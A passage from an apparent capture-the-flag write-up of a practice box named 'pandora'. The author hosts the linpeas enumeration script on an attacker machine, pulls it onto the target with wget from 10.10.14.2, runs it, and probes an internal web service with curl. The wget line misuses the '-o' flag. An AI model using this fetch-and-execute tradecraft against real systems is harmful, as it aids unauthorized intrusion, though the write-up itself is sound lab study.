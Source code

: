 Since there was no quick wins using classic `sudo -l` I will run `linpeas`.  

So I will need to transfer file from my Attack machine over to the box.  

First I start a python3 mini server with linpeas hosting in it.  

```bash
┌──(herc㉿kali)-[/opt/PrivEsc]
└─$ ls
linpeas.sh
                                                                                                                                                                                             
┌──(herc㉿kali)-[/opt/PrivEsc]
└─$ python3 -m http.server
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
```

Then I download it from my hosted mini server and put it in `/tmp` directory.  

```bash
daniel@pandora:~$ wget http://10.10.14.2:8000/linpeas.sh -o /tmp/linpeas.sh
```

And of course make it executable.  

```bash
daniel@pandora:/tmp$ chmod +x linpeas.sh 
```

Now next I will try to find anything interesting for Privilege Escalation.  

```bash

...[SNIP]...

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-unix/privilege-escalation#open-ports                                                                                                                     
tcp        0      0 127.0.0.1:3306          0.0.0.0:*               LISTEN      -                                                                                                            
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -

...[SNIP]...

```

Now this was interesting to me beacause there is a port 80 running on `tcp6` and I wanted to examine it more.  
Since it is a port 80 or http port we can use something simple as curl to examine it.  

```bash
daniel@pandora:~$ curl 127.0.0.1:80
<meta HTTP-EQUIV="REFRESH" content="0; url=/pandora_console/">
```
